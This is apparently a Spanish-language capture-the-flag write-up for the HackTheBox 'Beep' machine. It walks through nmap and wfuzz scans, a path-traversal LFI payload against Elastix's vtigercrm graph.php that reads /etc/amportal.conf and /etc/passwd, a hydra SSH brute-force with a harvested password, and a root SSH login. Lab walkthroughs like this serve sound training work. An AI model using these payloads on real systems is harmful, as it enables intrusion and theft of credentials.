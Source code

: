 ![Image text](https://github.com/b14nc0/CTF/blob/main/HTB/images/beep/beep.jpg)

## Linux - Easy
IP = 10.10.10.7

### USER ###

*** 
Ejecutamos nmap 
    
    nmap 10.10.10.7 -p- --open --min-rate 5000 -vv -n -Pn -oG allPorts
    
![Image text](https://github.com/b14nc0/CTF/blob/main/HTB/images/beep/allports.jpg)

    nmap 10.10.10.7 -sC -sV -p80  -oN targeted

![Image text](https://github.com/b14nc0/CTF/blob/main/HTB/images/beep/targeted.jpg)

Detectamos un apache, openssh, smtp, imap, ssl 
Revisamos la pagina web vemos que es un elastix (https://es.wikipedia.org/wiki/Elastix)

![Image text](https://github.com/b14nc0/CTF/blob/main/HTB/images/beep/elastix.jpg)

realizamos un scaneo de directorios en busca de algo mas de información

    wfuzz -c -t 400 --hc=404 --hh=1785 -L -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.7/FUZZ/
            
![Image text](https://github.com/b14nc0/CTF/blob/main/HTB/images/beep/wfuzz.jpg)

Detectamos varias paginas entre ellas admin accedemos e intentamos conectar con las password por defecto y no funciona.
Buscamos informacion sobre Elastix y encontramos una vulnerabilidad LFI 
(https://www.exploit-db.com/exploits/37637)

    /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
    
Lo ejecutamos y vemos que nos muestra unas credenciales.

[](https://github.com/b14nc0/CTF/blob/main/HTB/images/beep/lfi.jpg)

probamos a ver /etc/passwd para ver los usuarios que tienen bash e intentar conectar con ellos

     /vtigercrm/graph.php?current_language=../../../../../../../..//etc/passwd%00&module=Accounts&action
     
[](https://github.com/b14nc0/CTF/blob/main/HTB/images/beep/usuarios.jpg)

Sacamos el listado de usuarios y dejamos solo los que tengan bash

[](https://github.com/b14nc0/CTF/blob/main/HTB/images/beep/bash.jpg)
[](https://github.com/b14nc0/CTF/blob/main/HTB/images/beep/bash2.jpg)


lanzamos hydra para ver si nos conecta por ssh con las credenciales obtenidas.

    hydra 10.10.10.7 ssh -L user.txt -p jEhdIekWmdjE -f -vv
    
[](https://github.com/b14nc0/CTF/blob/main/HTB/images/beep/hydra.jpg)

### ROOT ###

*** 
Accemos con root por ssh

    ssh -o KexAlgorithms=diffie-hellman-group1-sha1 -o Ciphers=aes256-cbc root@10.10.10.7
    
 [](https://github.com/b14nc0/CTF/blob/main/HTB/images/beep/ssh.jpg)
 
conseguimos la flag de user.txt

![](https://github.com/b14nc0/CTF/blob/main/HTB/images/beep/flagUser.txt.jpg)

conseguimos la flag de root.txt

![](https://github.com/b14nc0/CTF/blob/main/HTB/images/beep/flagRoot.jpg)



